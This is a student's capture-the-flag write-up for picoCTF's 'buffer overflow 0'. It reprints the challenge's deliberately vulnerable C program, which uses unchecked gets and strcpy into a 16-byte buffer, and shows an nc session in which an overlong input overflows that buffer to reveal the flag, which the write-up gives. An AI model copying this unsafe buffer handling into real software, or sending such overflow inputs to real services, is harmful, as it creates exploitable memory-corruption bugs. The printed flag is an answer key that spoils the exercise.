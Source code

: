 # buffer overflow 0

*Flag:* picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

How you approached the challenge:

- step 1: Actually i had some experience in ctfs i had participated in before ctfs and therewere overflow question when it asked input and where hints were like enter 10000 letters and all and so when it asked input and i entered like 19 charcters it gave me flag. Even though the program says near 16 it didnt work for at 17 bytes so when i asked chatgpt it said just 17 wont work so we need to enter a bit more than asked.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler

  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

- step 2:These are the commands i used to get the flag
wget
```
root@Krish:~# wget https://artifacts.picoctf.net/c/172/vuln
--2024-11-05 16:24:56--  https://artifacts.picoctf.net/c/172/vuln
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 18.155.99.118, 18.155.99.60, 18.155.99.57, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|18.155.99.118|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16016 (16K) [application/octet-stream]
Saving to: ‘vuln’

vuln                          100%[=================================================>]  15.64K  75.1KB/s    in 0.2s

2024-11-05 16:24:57 (75.1 KB/s) - ‘vuln’ saved [16016/16016]

root@Krish:~# wget https://artifacts.picoctf.net/c/172/vuln.c
--2024-11-05 16:25:17--  https://artifacts.picoctf.net/c/172/vuln.c
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 18.155.99.67, 18.155.99.57, 18.155.99.60, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|18.155.99.67|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 808 [application/octet-stream]
Saving to: ‘vuln.c’

vuln.c                        100%[=================================================>]     808  --.-KB/s    in 0s

2024-11-05 16:25:18 (1.16 GB/s) - ‘vuln.c’ saved [808/808]

```
cat
```
root@Krish:~# cat vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler

  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
Final stuff to get flag
```
root@Krish:~# nc saturn.picoctf.net 52554
Input: efuih3fduiorwheije2hbeweiwehqwbvhewudb12ehbuewhqhqhebwq
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
![image](https://github.com/user-attachments/assets/d0142e58-a2f0-40b2-9c5a-aa91f87a56d7)


What you learned through solving this challenge:

1. Sometimes dont think much and try what u might be thinking 
2. Read and understand the program to know the limit to overflow

Other incorrect methods you tried:

- I think i wrong thing i did to solve this question would be to try to run this program vuln.c which wasnt even running.

References

- No references used
